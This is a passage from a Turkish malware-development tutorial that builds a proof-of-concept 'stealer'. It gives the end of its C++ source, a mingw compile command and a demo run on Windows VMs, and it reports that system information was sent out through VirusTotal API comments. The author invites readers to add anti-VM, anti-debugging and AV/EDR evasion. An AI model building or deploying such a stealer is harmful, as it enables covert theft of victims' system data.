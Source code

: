 ```cpp
  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```

Bu da çok karmaşık bir stealer değil, çünkü sadece "kirli bir PoC" (Proof of Concept). Gerçek saldırılarda saldırganlar, daha karmaşık mantığa sahip stealer'lar kullanır.     

Ayrıca gördüğünüz gibi burada anti-VM, anti-debugging, AV/EDR atlatma gibi teknikleri kullanmadık. Eğer ihtiyacınız varsa, benim kodumu temel alarak bunları ekleyebilirsiniz.
    

### demo

Her şeyi çalışırken kontrol edelim.     

"Stealer"'ımızı derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-liphlpapi -lwinhttp
```

![malware](./images/126/2024-06-25_14-10.png){width="80%"}      

Ve şimdi Windows 11 sanal makinemizde çalıştıralım:     

```powershell
.\hack.exe
```

![malware](./images/126/2024-06-25_16-14.png){width="80%"}      

![malware](./images/126/2024-06-25_16-44.png){width="80%"}      

Gördüğünüz gibi, test yorumu `meow-meow` başarıyla oluşturuldu. Ancak, sistem bilgileri içeren yorum başlangıçta görünmedi çünkü kodda veri ayrımı için `\n` sembolü yerine virgül kullanılmalıydı.      

Hatanın düzeltilmesinin ardından her şey sorunsuz çalıştı ve sistem bilgileri başarıyla VirusTotal API üzerinden gönderildi.     

![malware](./images/126/2024-06-25_22-53.png){width="80%"}      

Yani, mantığımız mükemmel çalıştı!    

Eğer bunu Windows 10 VM'imde çalıştırırsak:      

```powershell
.\hack.exe
```
